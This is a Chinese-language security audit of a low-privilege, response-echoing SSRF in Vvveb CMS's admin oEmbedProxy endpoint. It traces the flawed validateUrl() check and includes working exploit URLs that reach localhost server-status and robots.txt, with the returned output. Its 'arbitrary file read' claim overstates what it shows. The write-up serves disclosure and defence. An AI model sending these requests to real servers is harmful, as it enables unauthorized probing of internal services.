






# Vvveb CMS 后台编辑器 `oEmbedProxy` 低权限 SSRF

审计日期: 2026-04-16  
目标项目: `D:\phpstudy_pro\WWW\latest`  
分析目标: 后台编辑器接口 `/admin/index.php?module=editor/editor&action=oEmbedProxy` 的 SSRF 形成链路、代码级成因、低权限可达面与利用条件

## 1. 结论摘要

该漏洞的根因不是简单的“URL 没过滤”，而是整条后台编辑器链路同时存在两个问题：

1. 低权限 `author` 角色默认拥有 `editor/*`
2. `validateUrl()` 对 IP 的限制写错了，校验对象是完整 URL，而不是解析后的主机名

因此从代码链角度，完整形成路径是：

1. 低权限后台账号进入 `editor/editor`
2. 请求 `action=oEmbedProxy`
3. `Editor::oEmbedProxy()` 直接读取 `$_GET['url']`
4. `getUrl()` 调用 `validateUrl()`
5. `validateUrl()` 试图拦截 IP，但正则匹配的是 `$url` 而不是 `$host`
6. `http://127.0.0.1/`、`http://192.168.50.1/` 等地址绕过校验
7. 服务端使用 `curl` / `file_get_contents` 发起请求并把响应内容直接回给攻击者

从实际影响看，这不是“只能访问 127.0.0.1 首页”的弱 SSRF，而是已经能够：

- 本地任意文件读取
- 任意访问公网服务

## 2. 权限入口与路由分发

漏洞入口位于后台编辑器控制器：

- `admin/controller/editor/editor.php`

关键方法：

- `admin/controller/editor/editor.php:60`

  

```php
function oEmbedProxy() {
    $url = $this->request->get['url'];

    if (! $url) {
        return;
    }
    $result = getUrl($url, false);

    $this->response->setType('json');
    $this->response->output($result);
}
```

也就是说，请求：

```text
/admin/index.php?module=editor/editor&action=oEmbedProxy&url=...
```

会直接进入 `Editor::oEmbedProxy()`。

## 3. 低权限为什么能打到这个接口

默认角色配置中，`author` 具有：

```json
{"allow":["index","content/*", "editor/*","media/media/scan","admin/user","admin/user/save"], "deny":[]}
```

也就是说，`editor/*` 对低权限 `author` 默认开放，因此 SSRF 不是“管理员专属能力”。

这也是该漏洞严重度升高的关键原因之一：普通低权限后台账号即可利用。

## 4. 用户输入如何进入服务端请求

在 `oEmbedProxy()` 中，用户可控的 `url` 参数直接进入 `getUrl()`：

```php
$url = $this->request->get['url'];
$result = getUrl($url, false);
```

这里没有：

- 域名白名单
- 内网网段过滤
- 协议白名单之外的额外限制
- 对返回内容的去敏处理

因此一旦校验绕过，服务端响应会被完整带回。

## 5. 校验为何失效：`validateUrl()` 的 IP 检查写错了

关键函数位于：

- `system/functions.php:1739`

  

```php
function validateUrl($url) {
    if (strncmp($url, 'http', 4) === 0) {
        
        if (preg_match('/https?:\/\/(.+?)\//', $url, $matches)) {
            $host = $matches[1];

            if (strpos($host, ':') !== false) {
                return '';
            }
        
            if (strpos($host, '.') === false) {
                return '';
            }

            if (preg_match('/^(\d+\.)+\d+$/', $url, $matches)) {
                return '';
            }
            
            return $url;
        }
    }
    
    return '';
}
```

表面上看，作者想做三层限制：

1. 禁止显式端口
2. 禁止无点号主机名
3. 禁止 IP

但真正的问题在这里：

```php
if (preg_match('/^(\d+\.)+\d+$/', $url, $matches)) {
```

它匹配的是 **完整 URL**，不是前面已经取出的 `$host`。  
因此像：

```text
http://127.0.0.1/
http://192.168.50.1/
```

都不会命中这个正则，从而被错误放行。

## 6. 危险 Sink：服务端真实发起请求并回显

真正发起请求的函数位于：

- `system/functions.php:1767`

  

```php
function getUrl($url, $cache = true, $expire = 604800, $timeout = 5, $exception = true) {
    ...
    $url = validateUrl($url);
    ...
    if (function_exists('curl_init')) {
        $ch = curl_init($url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        ...
        $result = curl_exec($ch);
        ...
        return $result;
    }
    ...
}
```

这意味着漏洞不是“仅建立连接”的盲 SSRF，而是：

- 服务端真实请求目标 URL
- 返回内容直接送回前端

属于**可回显 SSRF**。

## 7. 动态验证

通过：

```text
http://127.0.0.1/server-status?auto
```

实际回显了：



```text
ServerVersion: Apache/2.4.39 (Win64) OpenSSL/1.1.1b mod_fcgid/2.3.9a mod_log_rotate/1.02
ServerMPM: WinNT
```

说明低权限后台账号已能探测并读取本机 Apache 状态信息。

```
/admin/index.php?module=editor/editor&action=oEmbedProxy&url=http://127.0.0.1/robots.txt
```




任意文件读取

```
/admin/index.php?module=editor/editor&action=oEmbedProxy&url=http%3A%2F%2Fwww.baidu.com%2F
```




还可以访问百度等

## 9. 漏洞形成的本质

这个漏洞的本质不是“一个函数没过滤干净”，而是：

- 低权限角色拥有过大的 `editor/*` 能力
- URL 校验实现错误
- SSRF Sink 直接回显远程内容

三者叠加后，使该点位从“后台功能缺陷”上升为“低权限可利用的真实 SSRF”。